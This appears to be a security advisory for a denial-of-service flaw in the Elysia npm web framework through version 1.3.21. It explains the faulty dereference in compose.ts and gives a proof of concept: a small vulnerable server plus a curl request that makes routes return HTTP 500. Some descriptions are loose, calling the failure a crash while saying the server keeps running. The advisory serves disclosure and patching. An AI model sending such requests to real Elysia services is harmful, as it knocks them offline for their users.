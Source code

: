 # vuln-elysia-1.3.21-ddos

## Summary

Elysia (npm) is vulnerable to **Denial of Service (DoS)** due to unsafe dynamic code generation in the request handler composition.  
Through version **1.3.21 (latest tested)**, a crafted schema property or malformed input can trigger a crash inside `composeHandler` in `src/compose.ts`.  
This causes the server to throw an unhandled exception and return **HTTP 500 Internal Server Error** for valid requests, effectively allowing remote attackers to perform a DoS.

- **Vulnerability Class:** Improper Input Validation → Crash/DoS (CWE-20, CWE-248)  
- **Severity:** Medium/High (CVSS ~7.5)  
- **Exploitability:** Any attacker able to send crafted HTTP requests to an affected server can trigger this vulnerability.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation assumes `schema.$defs[schema.$ref]` exists. Crafted input can bypass assumptions and cause a `TypeError`.

### Relevant code excerpt (compose.ts)
```ts
const properties =
  schema.properties ?? schema.$defs[schema.$ref].properties
```

If `schema.$defs` or `schema.$ref` is undefined due to attacker-controlled schema, the code throws:  
```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
```

---

## Proof of Concept (PoC)

### Vulnerable Server (poc-elysia-dos.mjs)
```js
import { Elysia, t } from 'elysia'

const app = new Elysia()
  .get('/hello', () => 'Hello World')
  .get('/dos', () => 'SAFE', {
    query: t.Record(t.String(), t.String())
  })
  .listen(3000)

console.log("Server listening on http://localhost:3000")
```

### Run the server
```bash
bun poc-elysia-dos.mjs
```

### Test normal route
```bash
curl http://localhost:3000/hello
# -> Hello World
```

### Trigger DoS
```bash
curl -i http://localhost:3000/dos?x=1
```

**Expected result:**  
The server crashes internally and responds with **500 Internal Server Error**.  
Clients see Bun’s error overlay HTML with stack trace:

```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
    at composeHandler (.../elysia/src/compose.ts:657:33)
    ...
```

### Demonstration
![DoS Attack Demonstration](poc-elysia-dos.gif)

---

## Attack Vector

- Any attacker who can send crafted requests to endpoints that use `t.Record` or similar schemas can reliably trigger a crash.  
- The server continues running, but valid requests fail until restart → effectively **Denial of Service**.

---

## Impact

- **Availability loss** for services using Elysia.  
- Remote attacker can crash endpoints at will.  
- In production, repeated exploitation can render the service unusable.  

**Vulnerability type:** Denial of Service (DoS) via malformed schema parsing  
**Affected users:** All applications using Elysia with schemas like `t.Record(...)` or other constructs that reach `schema.$defs`.

---

## Suggested Fix

- Add guards before dereferencing `schema.$defs[schema.$ref]`.  
- Reject malformed schema definitions early.  
- Add test cases for schema edge cases (e.g., empty `$ref`, missing `$defs`).

---

## Disclosure
- **Status:** Under responsible disclosure  
- **Disclosure Date:** 04 September 2025  
- **Reporter:** Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
